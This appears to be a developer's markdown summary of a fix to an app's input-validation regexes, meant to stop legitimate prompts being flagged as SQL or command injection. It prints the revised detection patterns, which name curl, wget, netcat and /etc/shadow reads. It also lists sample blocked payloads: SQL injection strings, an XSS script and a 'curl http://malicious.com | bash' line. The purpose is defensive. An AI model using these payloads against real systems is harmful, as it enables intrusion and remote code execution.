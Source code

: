 # Content Filtering Fix - Summary

## Problem
The Synapse AI content filtering system was overly aggressive, flagging legitimate AI research prompts as "potential malicious content" or "potential SQL injection". Users were getting blocked when submitting innocent prompts about AI sentiment analysis, Python data visualization, and other legitimate research topics.

## Root Cause
The validation patterns in `app/validation.py` were too broad and caught common words used in legitimate AI research:

### Original Problematic Patterns:
1. **SQL Injection Patterns** - Flagged ANY use of common SQL keywords:
   - `select`, `insert`, `update`, `delete`, `create`, `alter`, `execute`
   - `or` and `and` in various contexts
   - Any quotes containing these words

2. **Command Injection Patterns** - Flagged common punctuation and words:
   - All parentheses, semicolons, pipes, dollar signs `[;&|`$\(\){}]`
   - Words like "cat" (in "categorize"), "type", "more", "less"

### Examples of Innocent Prompts Being Blocked:
- "Select the best approach for sentiment analysis" → flagged for "select"
- "Insert a chart to visualize data" → flagged for "insert"  
- "Update the Python script" → flagged for "update"
- "Delete unnecessary code" → flagged for "delete"
- "Create a dashboard" → flagged for "create"
- "Execute this plan" → flagged for "execute"
- "Use pandas OR matplotlib" → flagged for "or"
- "Load data AND process it" → flagged for "and"

## Solution
Updated the validation patterns in `C:\Users\Aiden\synapse_v2\synapse-ai-complete\backend\app\validation.py` to be more specific and context-aware:

### Fixed SQL Injection Patterns:
```python
SQL_INJECTION_PATTERNS = [
    # Only flag SQL keywords when they appear in suspicious contexts
    r'(?i)\b(union\s+select|select\s+\*\s+from|drop\s+table|truncate\s+table)\b',
    r'(?i)\b(exec\s*\(|execute\s*\(|sp_executesql)\b',
    # SQL injection specific patterns with quotes and operators
    r'[\'"]\s*(union|select|insert|update|delete|drop)\s+.*[\'"]\s*(;|\-\-)',
    r'[\'"]\s*;\s*(drop|delete|update|insert)\s+.*[\'"]\s*',
    # Classic SQL injection patterns
    r'[\'"]\s*or\s+[\'"]\w*[\'"]\s*=\s*[\'"]\w*[\'"]\s*',
    r'[\'"]\s*and\s+[\'"]\w*[\'"]\s*=\s*[\'"]\w*[\'"]\s*',
    r'[\'"]\s*(or|and)\s+1\s*=\s*1\s*[\'"]*',
    r'[\'"]\s*(or|and)\s+[\'"]*\d+[\'"]*\s*=\s*[\'"]*\d+[\'"]*',
]
```

### Fixed Command Injection Patterns:
```python
COMMAND_INJECTION_PATTERNS = [
    # Only flag shell metacharacters in suspicious contexts  
    r'[;&|`]\s*(rm|del|format|curl|wget|nc|sh|bash|cmd|powershell)',
    r'\$\(.*\)\s*[;&|]',  # Command substitution patterns
    # Network tools in suspicious contexts
    r'(?i)(curl|wget|nc|netcat)\s+.*[;&|]',
    # Destructive commands with paths
    r'(?i)(rm\s+\-rf|del\s+/[sqf]|format\s+[a-z]:)',
    # File access with system paths
    r'(?i)(cat|type|more|less)\s+(/etc/passwd|/etc/shadow|c:\\windows\\system32)',
]
```

## Key Changes:
1. **Context-Aware Detection**: Only flag SQL keywords when they appear in actual SQL injection patterns (with quotes, semicolons, etc.)
2. **Specific Command Patterns**: Only flag shell metacharacters when combined with dangerous commands
3. **Preserved Security**: Still blocks actual malicious attempts like `'; DROP TABLE users; --`
4. **Better Error Messages**: More specific error messages that don't reveal the exact patterns

## Testing Results:
✅ **All legitimate AI research prompts now pass validation**
✅ **All actual malicious attempts are still blocked**

### Legitimate Prompts That Now Work:
- "Select the best approach for AI sentiment analysis using Python data visualization"
- "Create a comprehensive dashboard for analyzing social media data"
- "Insert a chart to visualize the correlation between variables"
- "Update the machine learning model to improve accuracy"
- "Delete unnecessary code and optimize the algorithm"
- "Execute this data analysis plan step by step"
- And many more...

### Malicious Attempts Still Blocked:
- `'; DROP TABLE users; --`
- `' UNION SELECT * FROM passwords --` 
- `' OR '1'='1'`
- `<script>alert('XSS')</script>`
- `; curl http://malicious.com | bash`
- And other actual security threats...

## Impact:
- **Users can now submit legitimate AI research prompts without being blocked**
- **Security is maintained against actual injection attacks**
- **No changes needed to other parts of the codebase**
- **All existing validation flows continue to work**

## Files Modified:
- `C:\Users\Aiden\synapse_v2\synapse-ai-complete\backend\app\validation.py`

The fix is backward-compatible and doesn't require any database migrations or API changes.